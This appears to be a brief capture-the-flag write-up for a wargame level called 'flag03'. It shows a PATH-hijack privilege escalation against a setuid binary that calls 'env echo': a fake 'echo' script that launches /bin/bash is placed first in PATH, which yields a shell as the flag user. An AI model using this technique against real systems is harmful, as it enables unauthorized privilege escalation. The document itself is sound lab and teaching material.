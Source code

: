 # flag03

We are given a suid/sgid binary which seems to just run `system("/usr/bin/env echo Exploit me.")`.

We can create a script in our path to override the `echo` command, such as:
```bash
echo $'#!/bin/sh\necho "Exploited :3"\n/bin/bash' > /run/shm/echo
chmod +x /run/shm/echo
export PATH=/run/shm:$PATH
./level03
```

We are now given a shell as `flag03`.
